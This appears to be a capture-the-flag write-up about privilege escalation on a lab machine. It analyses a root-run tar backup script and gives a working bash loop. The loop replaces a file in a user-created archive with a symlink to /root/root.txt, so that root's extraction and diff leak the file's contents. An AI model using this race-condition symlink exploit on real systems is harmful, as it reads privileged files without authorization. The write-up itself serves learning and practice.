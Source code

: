 
Most vulnerable line here is `/bin/tar -zxvf /var/tmp/.xxxx -C /var/tmp/check` and not any other.
Here's why:
- 2nd point creates a gzip file `/usr/bin/sudo -u onuma /bin/tar -zcvf /var/tmp/.xxx /var/www/html` but with user onuma.
- When `/bin/tar -zxvf /var/tmp/.xxxx -C /var/tmp/check` is run by root it decompresses the `gzip` created by onuma. 
- Creating a `symlink` of `gzip` file to root flag won't work since, `onuma` created the `gzip` file and has no perms on reading files owned by root. Secondly, even if root would've created the zip, the file wouldn't resolve and would've still be a symlink.
- The only way the way the symlink will be resolved will by compressing directory or decompressing it. Former done by onuma, latter by root. 

Here's what to do:
- Once the gzip is created at `/var/tmp/`, Unzip
- Change the contents inside the gzip, make any file symlink to `/root/root.txt`
- Zip it again
I need to do all of this in 30 seconds, which is the sleep time. Then once the file is unzipped by root, the symlink will be resolved. And since the zips no longer matches the original one, all the `diff` is put onto `/var/backups/onuma_backup_error.txt`

I made this script for the exploit:
```bash
#!/bin/bash
while true;
do
tempdir=/dev/shm/temp
file=$(echo /var/tmp/.* | awk '{print $3}')

echo --- File found $file

mkdir -p $tempdir
echo --- Directory created $tempdir

echo --- Extracting $file
tar -zxf $file -C $tempdir

echo --- Removing $tempdir/var/www/html/robots.txt
rm $tempdir/var/www/html/robots.txt

echo --- Symlink added
ln -s /root/root.txt $tempdir/var/www/html/robots.txt
ls -l $tempdir/var/www/html/robots.txt

echo --- Removing gzip $file
rm $file

echo --- Creating gzip $file 
cd $tempdir
tar -zcf $file var

sleep 15
done
```
Point to note in this script is, `cd $tempdir`. 
Suppose, If I create the new gzip from remote path like ``/tmp``, if my directories to zip lies at `/dev/shm/temp/var`, the gzip created will have the structure as dev->shm->temp->var->www->html. But I want the structure as var->www->html. So, I need to have var directory at PWD.
That's why `tar -zcf $file var` works and `tar -zcf $file /dev/shm/temp/var` doesn't.
